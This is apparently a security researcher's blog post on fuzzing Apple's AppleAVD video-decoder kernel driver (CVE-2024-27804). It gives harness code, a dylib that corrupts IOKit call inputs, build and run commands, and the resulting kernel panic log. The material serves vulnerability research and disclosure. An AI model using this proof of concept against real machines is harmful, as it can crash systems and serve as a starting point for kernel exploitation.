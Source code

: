 ```yaml
---
layout: post
title: "AppleAVD"
date: 2024-04-14 1:1:1 +0100
categories: fuzzing
---
```


[https://github.com/R00tkitSMM/CVE-2024-27804](https://github.com/R00tkitSMM/CVE-2024-27804)

tested on M1

{% highlight shell %}
#include <dlfcn.h>
#include <stdio.h>
#import <AVFoundation/AVFoundation.h>

typedef void (*t_VTApplyRestrictions)(int arg);
t_VTApplyRestrictions VTApplyRestrictions;

int __attribute__((noinline)) fuzz(const char *filename) {
  @autoreleasepool {
    NSError *error = nil;
    NSURL *fileURL = [NSURL
        fileURLWithPath:[NSString stringWithCString:filename
                                           encoding:NSASCIIStringEncoding]];
    AVAsset *asset = [AVAsset assetWithURL:fileURL];
    if (asset == nil)
      return 0;

    AVAssetReader *reader = [[AVAssetReader alloc] initWithAsset:asset
                                                           error:&error];
    if (reader == nil)
      return 0;

    NSArray *tracks = [asset tracksWithMediaType:AVMediaTypeVideo];
    if (tracks == nil || ([tracks count] == 0))
      return 0;

    AVAssetTrack *track = tracks[0];

    NSDictionary *outputSettings = [NSDictionary
        dictionaryWithObject:[NSNumber numberWithInt:kCMPixelFormat_32BGRA]
                      forKey:(id)kCVPixelBufferPixelFormatTypeKey];
    AVAssetReaderTrackOutput *output = [AVAssetReaderTrackOutput
        assetReaderTrackOutputWithTrack:track
                         outputSettings:outputSettings];

    [reader addOutput:output];
    [reader startReading];

    for (int frame = 0; frame < 2; frame++) {
      // printf("Frame %d\n", frame);

      CMSampleBufferRef sampleBuffer = [output copyNextSampleBuffer];
      if (sampleBuffer == nil)
        break;

      CMSampleBufferInvalidate(sampleBuffer);
      CFRelease(sampleBuffer);
      sampleBuffer = NULL;
    }
  }

  return 1;
}

int main(int argc, const char *argv[]) {
  if (argc < 2) {
    printf("Usage: %s <filename>\n", argv[0]);
    return 0;
  }

  // make decoding run in the current process instead of VTDecoderXPCService
  void *toolbox = dlopen("/System/Library/Frameworks/VideoToolbox.framework/"
                         "Versions/A/VideoToolbox",
                         RTLD_NOW);
  if (!toolbox) {
    printf("Error loading library\n");
    return 0;
  }
  VTApplyRestrictions =
      (t_VTApplyRestrictions)dlsym(toolbox, "VTApplyRestrictions");
  if (!VTApplyRestrictions) {
    printf("Error finding VTApplyRestrictions symbol\n");
    return 0;
  }
  VTApplyRestrictions(1);

  fuzz(argv[1]);

  return 0;
}
{% endhighlight %}

{% highlight cpp %}
#include <IOKit/IOKitLib.h>
#include <dlfcn.h>
#include <execinfo.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sysctl.h>
#include <time.h>

void flip_bit(void *buf, size_t len) {

  if (!len)
    return;
  size_t offset = rand() % len;

  ((int *)buf)[offset] = 0x41414141;
}

kern_return_t fake_IOConnectCallMethod(mach_port_t connection,
                                       uint32_t selector, uint64_t *input,
                                       uint32_t inputCnt, void *inputStruct,
                                       size_t inputStructCnt, uint64_t *output,
                                       uint32_t *outputCnt, void *outputStruct,
                                       size_t *outputStructCntP) {

  flip_bit(inputStruct, inputStructCnt);

  return IOConnectCallMethod(connection, selector, input, inputCnt, inputStruct,
                             inputStructCnt, output, outputCnt, outputStruct,
                             outputStructCntP);
}

typedef struct interposer {
  void *replacement;
  void *original;
} interpose_t;

__attribute__((used)) static const interpose_t interposers[]
    __attribute__((section("__DATA,__interpose"))) = {
        {.replacement = (void *)fake_IOConnectCallMethod,
         .original = (void *)IOConnectCallMethod}};

{% endhighlight %}

{% highlight shell %}
clang -arch arm64 -o vtdecode vtdecode.m -framework VideoToolbox -framework Foundation -framework CoreMedia  -framework CoreVideo -framework  AVFoundation
clang -dynamiclib -o flip.dylib flip.c -framework IOKit
{% endhighlight %}

{% highlight shell %}
DYLD_INSERT_LIBRARIES=./flip.dylib ./vtdecode input_poc/orientation-normal-fragmented.mp4.mov
{% endhighlight %}

{% highlight shell %}

panic(cpu 4 caller 0xfffffe0026851cdc): Unaligned kernel data abort. at pc 0xfffffe0026aed514, lr 0xfffffe0026aed5d8 (saved state: 0xfffffe3a396e3200)
	  x0:  0x000000000000000e x1:  0xfffffe1002bdc01b  x2:  0x0000000000000000  x3:  0xfffffe3a396e3444
	  x4:  0xfffffe3a396e344c x5:  0x000000000002d1f4  x6:  0x0000000000000000  x7:  0xffffffffffffffff
	  x8:  0x0000000000000004 x9:  0xfffffe1002bdc01f  x10: 0x0000000000000000  x11: 0x0000000000000002
	  x12: 0x0000000000000004 x13: 0x0000000000000000  x14: 0x0000000000000000  x15: 0x0000000000000000
	  x16: 0xfffffe0026aeda90 x17: 0xfffffe0026aed9fc  x18: 0x0000000000000000  x19: 0xfffffe1b40e90000
	  x20: 0x0000000000000000 x21: 0x0000000000000000  x22: 0xfffffe1002bdc000  x23: 0x0000000000000001
	  x24: 0x0000000000000000 x25: 0xfffffe1002bdc024  x26: 0x000000000000001b  x27: 0x00000000000008b0
	  x28: 0x000000000000001b fp:  0xfffffe3a396e3610  lr:  0xfffffe0026aed5d8  sp:  0xfffffe3a396e3550
	  pc:  0xfffffe0026aed514 cpsr: 0x60401208         esr: 0x96000021          far: 0xfffffe1002bdc01b

Debugger message: panic
Memory ID: 0x6
OS release type: User
OS version: 23C71
Kernel version: Darwin Kernel Version 23.2.0: Wed Nov 15 21:53:34 PST 2023; root:xnu-10002.61.3~2/RELEASE_ARM64_T8103
Fileset Kernelcache UUID: 6DAC2CF8E68E8F436296A697E29AAD44
Kernel UUID: E245D804-1FA3-31E2-90BC-B4DF75B2129E
Boot session UUID: 52885412-0864-4DFF-8E9E-36C3C7BC8B88
iBoot version: iBoot-10151.61.4
secure boot?: YES
roots installed: 0
Paniclog version: 14
KernelCache slide: 0x000000001dac4000
KernelCache base:  0xfffffe0024ac8000
Kernel slide:      0x000000001dacc000
Kernel text base:  0xfffffe0024ad0000
Kernel text exec slide: 0x000000001efd8000
Kernel text exec base:  0xfffffe0025fdc000
mach_absolute_time: 0x1c4f4c5a5
Epoch Time:        sec       usec
  Boot    : 0x65a56518 0x000b7c0f
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x65a5664f 0x00072ae4

Zone info:
  Zone map: 0xfffffe100f2dc000 - 0xfffffe300f2dc000
  . VM    : 0xfffffe100f2dc000 - 0xfffffe14dbfa8000
  . RO    : 0xfffffe14dbfa8000 - 0xfffffe1675940000
  . GEN0  : 0xfffffe1675940000 - 0xfffffe1b4260c000
  . GEN1  : 0xfffffe1b4260c000 - 0xfffffe200f2d8000
  . GEN2  : 0xfffffe200f2d8000 - 0xfffffe24dbfa4000
  . GEN3  : 0xfffffe24dbfa4000 - 0xfffffe29a8c70000
  . DATA  : 0xfffffe29a8c70000 - 0xfffffe300f2dc000
  Metadata: 0xfffffe3a1c3ac000 - 0xfffffe3a243ac000
  Bitmaps : 0xfffffe3a243ac000 - 0xfffffe3a27194000
  Extra   : 0 - 0

CORE 0 recently retired instr at 0xfffffe00261886e4
CORE 1 recently retired instr at 0xfffffe00261886e4
CORE 2 recently retired instr at 0xfffffe00261886e4
CORE 3 recently retired instr at 0xfffffe00261886e4
CORE 4 recently retired instr at 0xfffffe0026186ee8
CORE 5 recently retired instr at 0xfffffe00261886e4
CORE 6 recently retired instr at 0xfffffe00261886e4
CORE 7 recently retired instr at 0xfffffe00261886e4
TPIDRx_ELy = {1: 0xfffffe1b448bd030  0: 0x0000000000001004  0ro: 0x000000010061c320 }
CORE 0 PVH locks held: None
CORE 1 PVH locks held: None
CORE 2 PVH locks held: None
CORE 3 PVH locks held: None
CORE 4 PVH locks held: None
CORE 5 PVH locks held: None
CORE 6 PVH locks held: None
CORE 7 PVH locks held: None
CORE 0: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a39a13ef0
CORE 1: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a392b7ef0
CORE 2: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37df7ef0
CORE 3: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37c8fef0
CORE 4 is the one that panicked. Check the full backtrace for details.
CORE 5: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39033ef0
CORE 6: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39893ef0
CORE 7: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a396a7ef0
Compressor Info: 3% of compressed pages limit (OK) and 2% of segments limit (OK) with 0 swapfiles and OK swap space
Panicked task 0xfffffe1b46695e18: 14298 pages, 13 threads: pid 2352: vtdecode
Panicked thread: 0xfffffe1b448bd030, backtrace: 0xfffffe3a396e2930, tid: 184820
		  lr: 0xfffffe0026035568  fp: 0xfffffe3a396e29c0
		  lr: 0xfffffe002617fa24  fp: 0xfffffe3a396e2a30
		  lr: 0xfffffe002617de84  fp: 0xfffffe3a396e2b20
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e2b30
		  lr: 0xfffffe0026034e48  fp: 0xfffffe3a396e2ee0
		  lr: 0xfffffe002684726c  fp: 0xfffffe3a396e2f00
		  lr: 0xfffffe0026851cdc  fp: 0xfffffe3a396e3080
		  lr: 0xfffffe002617f890  fp: 0xfffffe3a396e30f0
		  lr: 0xfffffe002617e138  fp: 0xfffffe3a396e31e0
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e31f0
		  lr: 0xfffffe0026aed5d8  fp: 0xfffffe3a396e3610
		  lr: 0xfffffe0026ad6fe4  fp: 0xfffffe3a396e3720
		  lr: 0xfffffe0026ad66b4  fp: 0xfffffe3a396e3790
		  lr: 0xfffffe0026ad4e48  fp: 0xfffffe3a396e37d0
		  lr: 0xfffffe00267a0168  fp: 0xfffffe3a396e3810
		  lr: 0xfffffe00267a0484  fp: 0xfffffe3a396e39a0
		  lr: 0xfffffe002614b294  fp: 0xfffffe3a396e3ac0
		  lr: 0xfffffe002603bce8  fp: 0xfffffe3a396e3b60
		  lr: 0xfffffe002600edd4  fp: 0xfffffe3a396e3bc0
		  lr: 0xfffffe00260273f8  fp: 0xfffffe3a396e3c60
		  lr: 0xfffffe0026027864  fp: 0xfffffe3a396e3d50
		  lr: 0xfffffe0026173698  fp: 0xfffffe3a396e3e20
		  lr: 0xfffffe002617e18c  fp: 0xfffffe3a396e3f10
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e3f20
      Kernel Extensions in backtrace:
         com.apple.driver.AppleAVD(737.1)[63D957B3-2E48-36EA-880C-6F0BE3DE16A6]@0xfffffe0026a37e00->0xfffffe0026b04b43
            dependency: com.apple.driver.AppleARMPlatform(1.0.2)[9FC0A536-5BC6-33D5-911A-5A46BDDBBCEF]@0xfffffe00269dfe20->0xfffffe0026a3295b
            dependency: com.apple.driver.FairPlayIOKit(71.3.0)[AD212727-D14F-3DA2-8974-6CEA43B45BC1]@0xfffffe0027e23b50->0xfffffe0027f19aef
            dependency: com.apple.iokit.CoreAnalyticsFamily(1)[0896C7D3-89F2-3D56-A301-5CB0FE0BBEAC]@0xfffffe0027cb1f60->0xfffffe0027cb9d4b
            dependency: com.apple.iokit.IOSurface(352.0.3)[0351AFC2-D85C-3BB5-B9C6-C8C0F6C7A01D]@0xfffffe00288a7dc0->0xfffffe00288d85ab
{% endhighlight %}
